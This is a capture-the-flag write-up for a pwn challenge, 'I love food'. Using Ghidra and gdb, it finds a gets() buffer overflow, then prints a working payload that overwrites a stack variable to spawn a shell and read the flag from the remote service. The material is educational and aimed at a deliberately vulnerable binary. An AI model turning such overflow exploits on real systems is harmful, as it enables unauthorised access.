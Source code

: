 # I love food !

Subject :

```md
I made a program to know more about the tastes of the players, what's your favorite food ? :)

http://internetcest.fun:13338
```

[This binary](./i_love_food) is given. Let's try it out :

```bash
$ ./i_love_food 
What is your favorite dish ? 
test
Interesting... Mine is DEADBEEF :) 
```

The program is asking for an input, and exiting. Let's explore the code.

## Static analysis

Using ghidra we can find those functions :

```C
undefined8 main(void)
{
  setup();
  vuln();
  return 0;
}

void vuln(void)
{
  char local_38 [44];
  uint local_c;
  
  local_c = 0xdeadbeef;
  puts("What is your favorite dish ? ");
  gets(local_38);
  if (local_c == 0xf00df00d) {
    puts("Damn that\'s a good one !");
    system("/bin/sh");
  }
  else {
    printf("Interesting... Mine is %X :)",(ulong)local_c);
  }
  return;
}
```

We want to execute the command `system("/bin/sh");` in the vuln() function to get a shell. To do so we'll need to pass this condition : `if (local_c == 0xf00df00d)`.  
  
To achieve this, we'll modify the local_c variable by exploiting the gets() function which is vulnerable to a [buffer overflow](https://en.wikipedia.org/wiki/Buffer_overflow).

## Dynamic analysis

Let's find out how many bytes we need to write over before modifying local_c using gdb.  
  
First, we'll add a breakpoint (gdb will stop everytime the program reaches this instruction) after the gets() function is called. To do so, we'll disassemble the vuln() function and look for the instruction calling gets() :

```gdb
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0000000000001194 <+0>:	push   %rbp
   0x0000000000001195 <+1>:	mov    %rsp,%rbp
   0x0000000000001198 <+4>:	sub    $0x30,%rsp
   0x000000000000119c <+8>:	movl   $0xdeadbeef,-0x4(%rbp)
   0x00000000000011a3 <+15>:	lea    0xe5a(%rip),%rax        # 0x2004
   0x00000000000011aa <+22>:	mov    %rax,%rdi
   0x00000000000011ad <+25>:	call   0x1030 <puts@plt>
   0x00000000000011b2 <+30>:	lea    -0x30(%rbp),%rax
   0x00000000000011b6 <+34>:	mov    %rax,%rdi
   0x00000000000011b9 <+37>:	mov    $0x0,%eax
   0x00000000000011be <+42>:	call   0x1070 <gets@plt>
   0x00000000000011c3 <+47>:	cmpl   $0xf00df00d,-0x4(%rbp)
   0x00000000000011ca <+54>:	jne    0x11ec <vuln+88>
   0x00000000000011cc <+56>:	lea    0xe4f(%rip),%rax        # 0x2022
   0x00000000000011d3 <+63>:	mov    %rax,%rdi
   0x00000000000011d6 <+66>:	call   0x1030 <puts@plt>
   0x00000000000011db <+71>:	lea    0xe59(%rip),%rax        # 0x203b
   0x00000000000011e2 <+78>:	mov    %rax,%rdi
   0x00000000000011e5 <+81>:	call   0x1050 <system@plt>
   0x00000000000011ea <+86>:	jmp    0x1205 <vuln+113>
   0x00000000000011ec <+88>:	mov    -0x4(%rbp),%eax
   0x00000000000011ef <+91>:	mov    %eax,%esi
   0x00000000000011f1 <+93>:	lea    0xe4b(%rip),%rax        # 0x2043
   0x00000000000011f8 <+100>:	mov    %rax,%rdi
   0x00000000000011fb <+103>:	mov    $0x0,%eax
   0x0000000000001200 <+108>:	call   0x1060 <printf@plt>
   0x0000000000001205 <+113>:	nop
   0x0000000000001206 <+114>:	leave
   0x0000000000001207 <+115>:	ret
End of assembler dump.
(gdb) break *vuln+47
Breakpoint 1 at 0x11c3
```

According to our static analysis, the variable used to store the user input is of 44 bytes : `char local_38 [44];`. Let's fill this variable by using python to print 44 characters (we'll use "\x41" which is an `A` in ascii), and then inspect the stack to see how many bytes we need to write over before writing over local_c :

```gdb
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44)')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xdeadbe00
0x7fffffffda50:	0xffffda70	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
```

The rsp (Resgister Stack Pointer) is a register that points to the top of the current stack. So by using the `x/20wx $rsp` instruction, we can inspect the current stack.  
In the stack, we can easily spot the 44 "\x41" we gave to the program, and we can see a 0xdeadbe00 value right next to it. During our static analysis, we found `local_c = 0xdeadbeef;`, which means that the local_c variable is stored right after the user input. Let's write over it by adding "\x0d\xf0\x0d\xf0" after our previous input (being on a [little endian system](https://en.wikipedia.org/wiki/Endianness) we write over memory in reverse) :

```gdb
(gdb) r <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
Starting program: /home/coucou/Documents/I_love_food/i_love_food <<< $(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
What is your favorite dish ? 

Breakpoint 1, 0x00005555555551c3 in vuln ()
(gdb) x/20wx $rsp
0x7fffffffda20:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda30:	0x41414141	0x41414141	0x41414141	0x41414141
0x7fffffffda40:	0x41414141	0x41414141	0x41414141	0xf00df00d
0x7fffffffda50:	0xffffda00	0x00007fff	0x5555522b	0x00005555
0x7fffffffda60:	0xffffdb88	0x00007fff	0x00000000	0x00000001
(gdb) continue
Continuing.
Damn that's a good one !
[Detaching after vfork from child process 4655]

Program received signal SIGSEGV, Segmentation fault.
0x0000000000000000 in ?? ()
```

We can see in the stack that the variable has been modified, and by resuming execution after the breakpoint the program does reach the success message and open another process. Let's test our payload on the binary using the intruction `(python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")' ; tee)` to input our payload, and then freeze the shell before it closes :

```bash
$ (python3 -c 'import sys; sys.stdout.buffer.write(b"\x41"*44+b"\x0d\xf0\x0d\xf0")' ; tee) | ./i_love_food  
What is your favorite dish ? 

Damn that's a good one !
whoami
coucou
ls
exploit.py  i_love_food  README.md
```

We succesfully opened a shell, so the final payload is : `"\x41"*44+"\x0d\xf0\x0d\xf0"`.

## Exploit

Now let's connect to the service and send our payload. To do so, we'll use [this script](./exploit.py) :

```bash
$ python3 exploit.py                                                                              
b"What is your favorite dish ? \nDamn that's a good one !\n"
whoami
b'root\n'
ls
b'flag.txt\ni_love_food\ni_love_food.c\n'
cat flag.txt
b'FLAG{I_JU5T_L1K3_F00D!!}\n'
```
